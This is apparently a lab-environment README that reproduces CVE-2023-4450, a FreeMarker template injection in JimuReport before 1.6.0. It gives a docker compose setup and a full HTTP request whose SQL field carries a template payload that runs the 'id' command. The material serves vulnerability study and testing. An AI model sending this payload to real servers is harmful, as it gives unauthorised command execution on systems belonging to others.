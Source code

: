 # JeecgBoot JimuReport FreeMarker Server Side Template Injection RCE (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JimuReport is a open source visualization report platform under JeecgBoot project. In the JimuReport version prior to 1.6.0, there is a FreeMarker server side template injection (SSTI) issue that is able to execute arbitrary commands.

References:

- <https://github.com/advisories/GHSA-j8h5-8rrr-m6j9>
- <https://whoopsunix.com/docs/java/named%20module/>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell/>

## Vulnerable Environment

Execute following command to start a JimuReport 1.6.0 server:

```
docker compose up -d
```

Wait a few seconds and you can see the index page of JimuReport on `http://your-ip:8085`.

## Exploit

Send the following request to execute the FreeMarker template `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`:

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

The `id` command has been executed successfully:

![](1.png)
